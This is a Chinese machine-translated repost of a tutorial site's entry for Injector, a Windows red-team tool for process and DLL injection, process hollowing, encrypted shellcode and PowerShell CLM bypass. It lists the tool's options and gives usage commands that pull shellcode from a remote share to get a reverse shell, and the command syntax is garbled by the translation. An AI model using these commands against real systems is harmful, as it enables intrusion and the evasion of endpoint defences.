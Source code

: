 # injector:Windows 中用于红队的完整内存注入和其他技术库

> 原文：<https://kalilinuxtutorials.com/injector/>

[![Injector : Complete Arsenal Of Memory Injection And Other Techniques For Red-Teaming In Windows](img/9408b327a2ebe244a780ac7209882ec1.png "Injector : Complete Arsenal Of Memory Injection And Other Techniques For Red-Teaming In Windows")](https://1.bp.blogspot.com/-hbukk6gaVQc/YPAEktE5-lI/AAAAAAAAKDA/2wj82mPTgHwkJ52U1mU7dBeqn3SgAByAwCLcBGAsYHQ/s557/inection%2B%25281%2529.png)

Injector 是一个完整的内存注入和其他红队技术的武器库。

**注射器是做什么的？**

*   对位于远程服务器和本地存储的外壳代码的进程注入支持。只需指定外壳代码文件，它会做剩下的工作。默认情况下，它将注入 notepad.exe，如果没有找到，它将创建一个记事本进程，并注入持久化。
*   用于 DLL 注入的反射 DLL 注入。它下载 DLL 并注入远程进程。
*   通过 svchosts.exe 处理镂空
*   使用-bypass 标志，它倾向于为进程注入使用更高级的未记录的 API，并且例程本身会发生变化。
*   现在甚至支持加密外壳代码，即 AES 加密和异或加密外壳代码现在得到支持。要加密外壳代码，请使用 Helper.exe 以保持一致性。
*   支持 powershell 的 CLM 旁路。只需将它放到一个白名单文件夹中，在那里您可以执行 C#二进制文件，例如 C:\Windows\Tasks
*   现在支持 DLL 挖空。DLL 挖空是通过 dll_hollow.dll 实现的！因此，如果您最终使用这种模式，请确保 dll 和 exe 在同一个位置。

**C:\ Users \ admin>Injector.exe
Xenon 帮助选项:
-m 操作模式
-m 1 指定模式为进程注入
-m 2 指定模式为反射 DLL 注入
-m 3 指定模式为进程空洞
-m 4 无注入！给我该死的 shell
-通过 CLM 旁路的 m 5 Powershell 会话
-m 6 DLL 挖空
-当前用户可以读取的 TempFile 文件位置
-外壳代码使用外壳代码
-dll 使用 DLL
-解密-xor 指定外壳代码的 xor 解密
-pass 指定 Xor 解密的密码
-decrypt-aes 指定外壳代码的 aes 解密
-pass 指定 aes 解密的密码
-位置**

要生成加密的外壳代码，请在 kali 上使用 Helper.exe 和适当的开关。

**用法示例**

**Injector.exe-m = 1-外壳代码-加密-AES-pass =密码-位置= " \ 192 . x . x . x \ share \外壳代码. txt "-绕过**

这将解密你的外壳代码，并给你反向外壳。旁路标志的存在指示注入器使用一些其他方法来获得反向外壳，即使用一些未记录的 Win API。

如果你不想使用加密的外壳代码，你也可以像下面这样简单地运行它

**Injector.exe-m = 1-外壳代码-位置= " \ 192 . x . x . x \ share \外壳代码. txt"**

只需将-m=1 改为 2，3，4，6 即可运行其他模式。

**Injector.exe-m = 5-TempFile = C:\ Users \ user \ sample . txt**

这将给你一个会话，你可以执行 IEX 摇篮，并得到一个适当的反向外壳，从而绕过 CLM。

[**Download**](https://github.com/0xDivyanshu/Injector#help-me-with-antivirus)